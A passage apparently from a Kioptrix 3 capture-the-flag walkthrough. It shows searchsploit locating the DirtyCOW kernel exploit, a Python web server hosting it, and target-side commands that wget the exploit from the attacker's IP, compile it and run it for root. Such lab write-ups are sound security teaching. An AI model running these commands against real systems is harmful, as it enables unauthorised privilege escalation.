 ```bash
# Kali linux terminal
searchsploit linux kernel 2.6.24 privilege escalation
searchsploit -m linux/local/40839.c
python -m SimpleHTTPServer
```

![searchsploit_DirtyCOW](/assets/img/posts/kioptrix3/6.png)

We download the exploit on the target machine and compile it then run it.

```bash
# target terminal
wget http://192.168.56.157:8000/40839.c
gcc -pthread 40839.c -o 40839 -lcrypt
./40839
```
